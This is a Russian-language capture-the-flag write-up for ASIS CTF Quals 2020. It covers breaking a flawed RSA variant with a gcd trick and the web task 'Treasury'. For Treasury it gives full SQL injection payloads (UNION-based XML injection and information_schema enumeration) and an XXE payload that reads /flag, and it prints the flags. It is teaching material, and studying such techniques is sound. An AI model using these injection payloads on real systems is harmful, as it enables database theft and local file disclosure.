




# 1. Baby RSA



Нам даны 2 файла. Первый - это реализация криптосистемы RSA, а второй - то, что выдал данный скрипт

```bash
baby_rsa.py
output.txt
```

## Реализация

```python
#!/usr/bin/python

from Crypto.Util.number import *
import random
from flag import flag

nbit = 512
while True:
	p = getPrime(nbit)
	q = getPrime(nbit)
	e, n = 65537, p*q
	phi = (p-1)*(q-1)
	d = inverse(e, phi)
	r = random.randint(12, 19)
	if (d-1) % (1 << r) == 0:
		break

s, t = random.randint(1, min(p, q)), random.randint(1, min(p, q))
t_p = pow(s*p + 1, (d-1)/(1 << r), n)
t_q = pow(t*q + 4, (d-1)/(1 << r), n)

print 'n =', n
print 't_p =', t_p
print 't_q =', t_q
print 'enc =', pow(bytes_to_long(flag), e, n)
```

Нам даны значения n, t_p, t_q, enc во втором файле.

```text
n = 10594734342063566757448883321293669290587889620265586736339477212834603215495912433611144868846006156969270740855007264519632640641698642134252272607634933572167074297087706060885814882562940246513589425206930711731882822983635474686630558630207534121750609979878270286275038737837128131581881266426871686835017263726047271960106044197708707310947840827099436585066447299264829120559315794262731576114771746189786467883424574016648249716997628251427198814515283524719060137118861718653529700994985114658591731819116128152893001811343820147174516271545881541496467750752863683867477159692651266291345654483269128390649
t_p = 4519048305944870673996667250268978888991017018344606790335970757895844518537213438462551754870798014432500599516098452334333141083371363892434537397146761661356351987492551545141544282333284496356154689853566589087098714992334239545021777497521910627396112225599188792518283722610007089616240235553136331948312118820778466109157166814076918897321333302212037091468294236737664634236652872694643742513694231865411343972158511561161110552791654692064067926570244885476257516034078495033460959374008589773105321047878659565315394819180209475120634087455397672140885519817817257776910144945634993354823069305663576529148
t_q = 4223555135826151977468024279774194480800715262404098289320039500346723919877497179817129350823600662852132753483649104908356177392498638581546631861434234853762982271617144142856310134474982641587194459504721444158968027785611189945247212188754878851655525470022211101581388965272172510931958506487803857506055606348311364630088719304677522811373637015860200879231944374131649311811899458517619132770984593620802230131001429508873143491237281184088018483168411150471501405713386021109286000921074215502701541654045498583231623256365217713761284163181132635382837375055449383413664576886036963978338681516186909796419
enc = 5548605244436176056181226780712792626658031554693210613227037883659685322461405771085980865371756818537836556724405699867834352918413810459894692455739712787293493925926704951363016528075548052788176859617001319579989667391737106534619373230550539705242471496840327096240228287029720859133747702679648464160040864448646353875953946451194177148020357408296263967558099653116183721335233575474288724063742809047676165474538954797346185329962114447585306058828989433687341976816521575673147671067412234404782485540629504019524293885245673723057009189296634321892220944915880530683285446919795527111871615036653620565630
```

## Взлом реализации

Единственное, что нам нужно - это понимание взаимосвязи между n and t_p.

```python
n = p * q
t_p = pow(s*p + 1, (d-1)/(1 << r), n)
```

Мы можем заметить, что t_p = 1mod(p) (Поскольку все остальные члены, за исключением 1 в разложении pow(s*p + 1, (d-1)/(1 << r)) будут делиться на p)

Это означает, что (t_p - 1) делится на p. Так как n также делится на p, то НОД (t_p - 1) и n должен быть равен p.

[Этот](crack.py) скрипт может посчитать данный нам вход.

```python3
>>> from Crypto.Util.number import *
>>> from math import gcd
>>> n = 10594734342063566757448883321293669290587889620265586736339477212834603215495912433611144868846006156969270740855007264519632640641698642134252272607634933572167074297087706060885814882562940246513589425206930711731882822983635474686630558630207534121750609979878270286275038737837128131581881266426871686835017263726047271960106044197708707310947840827099436585066447299264829120559315794262731576114771746189786467883424574016648249716997628251427198814515283524719060137118861718653529700994985114658591731819116128152893001811343820147174516271545881541496467750752863683867477159692651266291345654483269128390649
>>> t_p = 4519048305944870673996667250268978888991017018344606790335970757895844518537213438462551754870798014432500599516098452334333141083371363892434537397146761661356351987492551545141544282333284496356154689853566589087098714992334239545021777497521910627396112225599188792518283722610007089616240235553136331948312118820778466109157166814076918897321333302212037091468294236737664634236652872694643742513694231865411343972158511561161110552791654692064067926570244885476257516034078495033460959374008589773105321047878659565315394819180209475120634087455397672140885519817817257776910144945634993354823069305663576529148
>>> enc = 5548605244436176056181226780712792626658031554693210613227037883659685322461405771085980865371756818537836556724405699867834352918413810459894692455739712787293493925926704951363016528075548052788176859617001319579989667391737106534619373230550539705242471496840327096240228287029720859133747702679648464160040864448646353875953946451194177148020357408296263967558099653116183721335233575474288724063742809047676165474538954797346185329962114447585306058828989433687341976816521575673147671067412234404782485540629504019524293885245673723057009189296634321892220944915880530683285446919795527111871615036653620565630
>>> p = gcd(n,t_p-1)
>>> q = n // p
>>> assert n == p * q
>>> phi = (p-1)*(q-1)
>>> e = 65537
>>> d = inverse(e,phi)
>>> long_to_bytes(pow(enc,d,n))
b'ASIS{baby___RSA___f0r_W4rM_uP}'
>>> 

```

# 2-3 Treasury (ASIS CTF Quals 2020)

## Treasury #1
Открываем выданный URL, и получаем инфу про какие-то книги :



Посмотрим, что запрашивается с помощью инструменов разработчика и увидим, что страница делает запрос по адресу <https://poems.asisctf.com/books.php?type=list>, инициатором котоого является файл treasury.js:



После открытия этого файла видим два запроса :  
- [Первый](img/Treasury-treasury.js-fetch-excerpt.png "Treasury treasury.js fetch excerpt") был сделан на `'/books.php?type=excerpt&id=' + book.id`
- [Второй](img/Treasury-treasury.js-fetch-list.png "Treasury treasury.js fetch list") был сделан на `'books.php?type=list'`

### SQL инъекция
После тестирования параметра `type` для значений, отличных от `excerpt` или `list`, мы постоянно получаем : `Invalid type`

Переходим к параметру `id`, только значения 1, 2 и 3 выдают какие-то данные (отрывки из книг).  
Но если мы попробуем поместить что-то вроде `' OR '1'='1`, то это сработает! Этот запрос успешно получает отрывок 1 книги (<https://poems.asisctf.com/books.php?type=excerpt&id='+OR+'1'%3D'1>)

Теперь попробуем инъекцию с UNION `' UNION SELECT 'ANYTHING` (<https://poems.asisctf.com/books.php?type=excerpt&id='+UNION+SELECT+'ANYTHING>)  
Мы получили ошибку, сигнализирующую о том, что сервер попытался загрузить xml строку из нашей строчки `ANYTHING` :



#### Решение (XML инъекция)
Поскольку сервер ожидает загрузки строки XML из базы данных, мы можем фактически создать наш собственный XML в UNION инъекции и позволить серверу проанализировать его.
Но мы должны знать структуру ожидаемой XML-строки ...
Хорошо. Попытаемся догадаться, почему нет? Поскольку мы извлекаем отрывки из книги, может быть, он ожидает тег "excerpt"? Посмотрим :
- Пусть это будет XML, который мы инъектим
```xml
<root>
  <excerpt>TESTING HERE</excerpt>
</root>
```
- Добавим его в пейлоад : `' UNION SELECT '<root><excerpt>TESTING HERE</excerpt></root>`, и отправим
- Мы получили `TESTING HERE` в [ответе сервера](img/Treasury-XML-injection.png "Treasury XML injection"), отлично! Мы успешно создали XML строку, которую смог распарсить сервер

### Перечисление бд
Теперь, используя технику XML инъекции, мы можем перечислить все существующие базы данных, таблицы и их содержимое.

#### Перечисление всех таблиц
- **Запрос пейлоада:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(table_schema), '|', GROUP_CONCAT(table_name), '</excerpt></root>') FROM information_schema.tables WHERE table_schema != 'information_schema`
- **Объяснение:** во-первых, мы оборачиваем то, что хотим извлечь, в предыдущие теги XML (root и excerpt), теперь для извлечения всех имен всех баз данных и таблиц существует специальная таблица `information_schema.tables` которая содержит данную информацию в столбце `table_schema` (бд) и `table_name`. Мы используем `GROUP_CONCAT` чтобы объединить все результирующие строки в одну (потому что сервер выбирает только первую строку), и мы используем `CONCAT` чтобы объединить полученные столбцы в один (иначе запрос на объединение не будет выполнен из-за несоответствия количества столбцов), и, наконец, мы указываем `WHERE table_schema != 'information_schema'` чтобы избежать получения информации о специальной базе данных `information_schema` так как она нам не интересна.
- **Ответ:** `ASISCTF|books`, означает, что здесь только таблица `books` в бд `ASISCTF`

#### Перечисление столбцов таблицы ASISCTF.books
- **Запрос пейлоада:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(column_name), '</excerpt></root>') FROM information_schema.columns WHERE table_name = 'books`
- **Объяснение:** опять же, мы оборачиваем то, что нам нужно, в теги XML, и, используя ту же технику, что и в предыдущий раз, мы выбираем все имена столбцов из таблицы `books`.
- **Ответ:** `id,info`, таким образом, сосредоточимся на столбце `info` который, как мы знаем, содержит XML строки.

### Поиск золота)
Теперь, прежде чем писать наш следующий запрос, мы должны помнить, что, поскольку информационный столбец содержит строки XML, мы хотим, чтобы сервер не анализировал эти строки XML, мы просто хотим видеть их в необработанном виде. 
Мы можем получить это с помощью функции MySQL's `REPLACE`, простой заменой `<` на что-то ещё.
- **Запрос пейлоада:** `' UNION SELECT CONCAT('<root><excerpt>', REPLACE(GROUP_CONCAT(info, '\n-------------------------------\n'), '<', '>'), '</excerpt></root>') FROM books #`
- **Объяснение:** мы заключаем в теги XML то, что нам нужно для извлечения, и используем `GROUP_CONCAT`, чтобы объединить все данные, разделив их` \ n ----------------------- -------- \ n`, и мы заменяем `<` на `>`, чтобы избежать интерпретации внутреннего XML, и в конце мы используем `#`, чтобы закомментировать оставшуюся часть запроса.
- **Ответ:** мы получаем все строки XML, и мы замечаем, что есть какой-то тег сюрприз ... но нам он подходит :
```
>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>1>/id>
  >name>Dīvān of Hafez>/name>
  >author>Khwāja Shams-ud-Dīn Muḥammad Ḥāfeẓ-e Shīrāzī>/author>
  >year>1315-1390>/year>
  >link>https://ganjoor.net/hafez/ghazal/sh255/>/link>
  >flag>Your flag is not here! Read more books :)>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>2>/id>
  >name>Gulistan of Saadi>/name>
  >author>Abū-Muhammad Muslih al-Dīn bin Abdallāh Shīrāzī, the Saadi>/author>
  >year>1258>/year>
  >link>https://ganjoor.net/saadi/golestan/gbab1/sh36/>/link>
  >flag>OK! You can use ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884} flag, but I keep the `/flag` file secure :-/>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>3>/id>
  >name>Shahnameh of Ferdowsi>/name>
  >author>Abul-Qâsem Ferdowsi Tusi>/author>
  >year>977-1010>/year>
  >link>https://ganjoor.net/ferdousi/shahname/jamshid/sh1/>/link>
  >flag>Just if I could read files :(>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
```
Как вы можете видеть, **flag** находится в теге `flag` во второй книге:` ASIS {6e73c9d277cc0776ede0cbd36eb93960d0b07884} `
Но мы также получаем сообщение «I keep the `/flag` file secure», давайте посмотрим, насколько «безопасно» это место во второй части этой задачи.
## Treasury #2

### XXE
Как было сказано, теперь очевидно, что нам нужно прочитать содержание`/flag`.
> Just if I could read files :(

О, да, мы можем... XML предоставляет нам замечательную возможность загрузки внешних ресурсов с использованием DocType Definitions (DTD), и это попадает в диапазон **XXE атак** (XML eXternal Entity).

Вот XML, который мы будем вводить, чтобы прочитать содержимое `/flag` :
```xml
<!DOCTYPE excerpt [
   <!ELEMENT excerpt ANY >
   <!ENTITY flag SYSTEM  "file:///flag" >]>
<root>
  <excerpt>&flag;</excerpt>
</root>
```
Как видите, мы используем DOCTYPE Definition и определяем `flag` как сущность, которая читает файл `/flag`, поэтому, когда мы выдаем `&flag;` в теге `excerpt`, он заменит "переменную" `flag` содержимым `/flag`. Посмотрим :
- **Запрос пейлоада:** `' UNION SELECT '<!DOCTYPE excerpt [<!ENTITY flag SYSTEM "file:///flag">]><root><excerpt>&flag;</excerpt></root>`
- **Объяснение:** объяснять особо нечего, мы просто внедряем XML в запрос UNION
- **Ответ:** `ASIS{03482b1821398ccb5214d891aed35dc87d3a77b2}`, мы получили второй **flag** как и ожидали, **КРУТЬ**.
